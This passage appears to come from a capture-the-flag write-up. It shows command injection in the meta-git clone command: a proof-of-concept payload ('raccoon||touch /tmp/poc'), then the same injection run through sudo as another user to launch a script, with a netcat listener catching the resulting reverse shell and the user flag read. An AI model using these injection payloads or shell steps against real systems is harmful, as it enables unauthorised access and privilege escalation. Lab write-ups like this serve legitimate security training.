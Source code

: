 ```bash
gbyolo@faculty:~$ /usr/local/bin/meta-git clone 'raccoon||touch /tmp/poc'
meta git cloning into 'raccoon||touch /tmp/poc' at poc

poc:
fatal: repository 'raccoon' does not exist
poc ✓
(node:46358) UnhandledPromiseRejectionWarning: Error: ENOTDIR: not a directory, chdir '/home/gbyolo/poc'
    at process.chdir (internal/process/main_thread_only.js:31:12)
    at exec (/usr/local/lib/node_modules/meta-git/bin/meta-git-clone:27:11)
    at execPromise.then.catch.errorMessage (/usr/local/lib/node_modules/meta-git/node_modules/meta-exec/index.js:104:22)
    at process._tickCallback (internal/process/next_tick.js:68:7)
    at Function.Module.runMain (internal/modules/cjs/loader.js:834:11)
    at startup (internal/bootstrap/node.js:283:19)
    at bootstrapNodeJSCore (internal/bootstrap/node.js:623:3)
(node:46358) UnhandledPromiseRejectionWarning: Unhandled promise rejection. This error originated either by throwing inside of an async function without a catch block, or by rejecting a promise which was not handled with .catch(). (rejection id: 1)
(node:46358) [DEP0018] DeprecationWarning: Unhandled promise rejections are deprecated. In the future, promise rejections that are not handled will terminate the Node.js process with a non-zero exit code.
gbyolo@faculty:~$ ls -al /tmp/poc
-rw-rw-r-- 1 gbyolo gbyolo 0 Aug  1 23:30 /tmp/poc
```

Looks like this version is vulnerable. Now to use sudo and run a simple bash shell.


```bash
gbyolo@faculty:/tmp$ nano shell.sh
gbyolo@faculty:/tmp$ sudo -u developer meta-git clone 'raccoon||bash shell.sh'
meta git cloning into 'raccoon||bash shell.sh' at raccoon||bash shell.sh

raccoon||bash shell.sh:
fatal: destination path 'raccoon' already exists and is not an empty directory.
```

```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.10.11.169 49008
developer@faculty:/tmp$ cd ~
cd ~
developer@faculty:~$ cat user    
cat user.txt 
7d39b7b6b58e7-------------------
```

# Root

## Capabilities and gdb
